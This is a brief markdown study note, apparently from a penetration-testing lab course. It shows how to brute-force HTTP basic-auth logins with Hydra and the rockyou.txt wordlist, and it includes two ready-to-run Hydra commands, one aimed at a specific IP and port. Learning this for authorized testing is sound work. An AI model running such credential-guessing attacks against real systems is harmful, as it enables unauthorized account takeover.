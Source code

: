 #BruteForcing #UsernameCracking

### Wordlists
To use hydra on local VM, download wordlist [here](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt)

### Username/Password Attack
Hydra requires *credentials, target host, target path*. If the credentials are on a single list to perform a brute force against a service. Can use **-L** flag for usernames wordlist, and **-P** for passwords wordlist. **-f** will tell hydra to stop after the first successful login. **-u** will have hydra try all users on each password instead of all 14 million passwords on one user then moving to the next. 
``` bash
hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f IP -s PORT http-get /
```
### Username Brute Force
If you brute force username or password, you can assign a static username or password with the same flag but lowercase. 
``` bash
# Try names.txt wordlist for password amormio
hydra -L /opt/userful/SecLists/Usernames/Names/names.txt -p amormio -u -f 178.25.49.134 -s 32901 http-get /
```